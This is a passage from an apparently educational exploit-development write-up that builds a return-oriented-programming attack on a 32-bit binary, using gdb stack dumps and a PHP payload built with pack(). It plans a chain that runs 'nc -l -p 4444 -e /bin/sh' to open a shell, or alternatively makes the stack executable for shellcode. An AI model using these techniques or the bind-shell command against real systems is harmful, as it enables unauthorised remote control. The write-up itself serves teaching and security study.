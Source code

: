 ```
0xb7343bcc:	0xb7346f30	0x00000000	0x00000000	0x00000000
(gdb) x/1i 0x08048af0
   0x8048af0:	ret
```

It tries to execute the code at address `0x01010101`. If we replace this with the address
of a ret, it will execute the ret, and then automatically continue to the
next address on the stack: `0x02020202`. Or at least, this is the assumption.

So, therefore we can just do a ret, like this one:
```
(gdb) x/1i 0x08048af0
   0x8048af0:	ret
```

Test it, by replacing the `0x01010101` with `0x08048af0`:
```
$payload = pack("V", 0x08048af0); // ret
$payload .= pack("V", 0x02020202);
$payload .= pack("V", 0x03030303);
```

in GDB:
```
0x02020202 in ?? ()
(gdb) x/8x $esp
0xb71fabc4:	0x03030303	0x00000000	0xb71fdf30	0x00000000
0xb71fabd4:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) x/8x $esp-4
0xb71fabc0:	0x02020202	0x03030303	0x00000000	0xb71fdf30
0xb71fabd0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) x/8x $esp-8
0xb71fabbc:	0x08048af0	0x02020202	0x03030303	0x00000000
0xb71fabcc:	0xb71fdf30	0x00000000	0x00000000	0x00000000
```

As expected, it crashes on `0x02020202`. Assumption was correct.



## ROP Code planning

The (initial) plan is to implement one of the following ROP codes:

plan a:
1) copy "nc -l -p 4444 -e /bin/sh" into writeable EDX page
2) execute system() with that EDX memory addr

plan b:
1) mprotect() [esp] for +x
2) execute shellcode after end of ROP


### Trouble with plan a

As we have seen, 0x20 = SPACE is not a valid char. Therefore we cannot just copy
the shell command line to somewhere, as the write4() call will contain that invalid char.
